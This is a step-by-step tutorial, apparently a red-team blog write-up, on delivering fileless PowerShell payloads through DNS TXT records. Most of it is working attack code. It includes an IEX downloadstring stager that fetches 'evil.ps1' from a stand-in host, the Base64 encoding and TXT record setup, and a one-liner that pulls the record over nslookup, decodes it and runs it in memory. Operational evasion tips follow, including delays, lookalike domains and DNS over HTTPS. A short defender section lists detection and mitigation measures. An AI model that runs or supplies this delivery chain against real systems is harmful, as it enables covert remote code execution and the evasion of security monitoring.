

PowerShell File Transfer via DNS Lookup
Overview
This writeup demonstrates a fileless payload delivery technique using DNS TXT records and PowerShell. By leveraging DNS as a covert channel, we can execute malicious code entirely in memory without writing files to disk, bypassing traditional security controls that monitor file-based activity.
What you'll learn:
- How to encode and embed PowerShell payloads in DNS TXT records
- Techniques for retrieving and executing code from DNS queries
- Why DNS is an effective covert channel for attackers
- Detection and mitigation strategies for defenders
Prerequisites
Before starting, ensure you have:
- PowerShell 3.0 or higher
- Access to a domain registrar (we'll use Namecheap in this example)
- Basic understanding of DNS and PowerShell
- Appropriate authorization for testing (use only in controlled environments)
Understanding the Attack Chain
- Prevents corruption or blocking when sending binary data over text-based protocols
- Ensures compatibility with DNS TXT record character limitations
- Provides basic obfuscation against simple string-based detection
- Prevents accidental alteration during transmission
Step-by-Step Implementation
[Step 1] Create Your PowerShell Payload
First, create a simple PowerShell script that will serve as your payload. For this example, we'll create test.ps1:
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")Note: This is a simple example that downloads and executes another script. In real scenarios, payloads can be much more sophisticated.
[Step 2] Convert Payload to Base64
To embed our payload in a DNS TXT record, we need to convert it to Base64 format. Use the following PowerShell command:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\\Users\\peter\\Desktop\\test.ps1"))This command reads the entire file as bytes and converts it to a Base64 string that looks something like:

SUVYIChOZXctT2JqZWN0IE5ldC5XZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCJodHRwOi8vRVZJTC9ldmlsLnBzMSIpImportant: Copy this entire Base64 string; you'll need it for the next step.
[Step 3] Create DNS TXT Record
Now we'll embed our Base64-encoded payload in a DNS TXT record. Log into your domain registrar (Namecheap, GoDaddy, Cloudflare, etc.) and create a new TXT record:
- Type: TXT Record
- Host: @ (or a subdomain if preferred)
- Value: Your Base64 string from Step 2
- TTL: Automatic or 300 seconds
You can use any domain registrar you prefer; in this example, I used Namecheap.

The TXT record should look like:
domain.com TXT "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCJodHRwOi8vRVZJTC9ldmlsLnBzMSIp"Pro tip: Some registrars have character limits for TXT records. For larger payloads, you may need to split them across multiple TXT records or subdomains.
[Step 4] Validate DNS Configuration
Before proceeding, verify that your DNS record propagated correctly using nslookup:
nslookup -querytype=txt yourdomain.com
You should see your Base64 payload returned in the response. DNS propagation can take anywhere from a few minutes to 48 hours, though it's typically quick with modern DNS providers.
[Step 5] Execute the Payload
Finally, use this PowerShell one-liner to query the DNS TXT record, decode the Base64 payload, and execute it in memory:
Replace DOMAIN NAME with your domain (e.g., example.com).
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "DOMAIN NAME" | Select-String '\".*\"') -split '\"')[1])))Command breakdown:
nslookup -querytype=txt "yourdomain.com"- Queries the TXT recordSelect-String '\".*\"'- Extracts the quoted string containing our payload-split '\"'- Splits the string by quotes[1]- Selects the second element (the actual Base64 content)[System.Convert]::FromBase64String()- Decodes from Base64[System.Text.Encoding]::UTF8.GetString()- Converts bytes to UTF-8 stringIEX- Executes the resulting PowerShell code in memory
Detection and Mitigation
🛡️ For Defenders: Detection Strategies
- Monitor for unusually large DNS TXT record queries
- Look for Base64-encoded strings in DNS traffic
- Analyze PowerShell command-line arguments containing
IEX,nslookup, andFromBase64String - Enable PowerShell script block logging to capture suspicious commands
- Implement DNS query logging and establish baselines for normal TXT record queries
🛡️ For Defenders: Mitigation Techniques
- Restrict PowerShell execution policies
- Implement application whitelisting
- Use DNS filtering to block known malicious domains
- Deploy EDR solutions that monitor PowerShell behavior
- Configure Windows Defender Application Control (WDAC)
- Enable PowerShell Constrained Language Mode in sensitive environments
⚔️ For Red Teamers: Operational Security
- Use legitimate-looking domain names
- Implement delays between queries to avoid detection
- Split payloads across multiple subdomains
- Combine with other evasion techniques
- Consider DNS over HTTPS (DoH) to bypass traditional DNS monitoring
Key Takeaways
IEX, we create a fileless, multi-stage execution chain that:
- Bypasses traditional antivirus detection
- Leaves minimal forensic artifacts
- Exploits trusted network protocols
- Demonstrates the importance of monitoring PowerShell activity
Understanding both the offensive technique and defensive countermeasures is essential for modern security professionals.